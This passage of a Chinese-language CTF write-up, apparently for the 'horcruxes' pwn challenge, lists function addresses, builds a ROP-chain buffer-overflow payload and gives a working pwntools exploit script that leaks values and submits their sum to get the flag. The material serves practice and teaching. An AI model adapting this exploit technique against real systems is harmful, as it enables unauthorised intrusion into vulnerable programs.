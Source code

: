 下面是找到的各函数和需要的地址：
```
call A() --> 0x809fe4b
call B() --> 0x809fe6a
call C() --> 0x809fe89
call D() --> 0x809fea8
call E() --> 0x809fec7
call F() --> 0x809fee6
call G() --> 0x809ff05
main <call ropme> --> 0x809fffc
```

所以构造出的`payload`为：

`'A' * 120 + 0x809fe4b + 0x809fe6a + 0x809fe89 + 0x809fea8 + 0x809fec7 +
0x809fee6 + 0x809ff05 + 0x809fffc`

### 脚本编写

使用pwntools很容易就可以完成攻击脚本：
```python
from pwn import *
context.log_level='debug'
LOCAL = False

if __name__ == '__main__':
    if LOCAL:
        c = process('/home/horcruxes/horcruxes')
    else:
        c = remote('0', 9032)
    msg = c.recvuntil("Menu:")
    c.sendline('1')
    msg = c.recv(512)
    payload = 'A'*0x78
    payload += p32(0x809fe4b)  # address A（）
    payload += p32(0x809fe6a)  # address B（）
    payload += p32(0x809fe89)  # address C（）
    payload += p32(0x809fea8)  # address D（）
    payload += p32(0x809fec7)  # address E（）
    payload += p32(0x809fee6)  # address F（）
    payload += p32(0x809ff05)  # address G（）
    payload += p32(0x809fffc)  # address main<call ropme>
    c.sendline(payload)
    sum = 0
    c.recvline()
    for i in range(7):
        s = c.recvline()
        n = int(s.strip('\n').split('+')[1][:-1])
        sum += n
    print "Result: " + str(sum)
    c.recvuntil("Menu:")
    c.sendline("1")
    c.recvuntil(" : ")
    c.sendline(str(sum))
    log.success("Flag: " + c.recvline())
```
作者是ssh到服务器上在`/tmp`文件加下建立并运行文件的，需要多跑几次，good luck！
